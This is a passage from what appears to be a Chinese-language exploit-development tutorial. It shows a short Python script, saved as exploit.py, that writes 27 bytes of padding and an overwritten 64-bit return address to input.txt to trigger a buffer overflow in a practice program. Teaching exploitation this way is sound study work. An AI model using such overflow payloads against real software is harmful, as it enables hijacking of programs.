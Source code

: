 ![](img/00260.jpeg)

在新窗口中，编写我们的利用程序：

```
#!/usr/bin/python
from struct import *
buffer = ''
buffer += 'a'*27
buffer += pack("<Q", 0x0040135f)
f = open("input.txt", "w")
f.write(buffer)
```

然后，将其保存为`exploit.py`：

![](img/00261.jpeg)
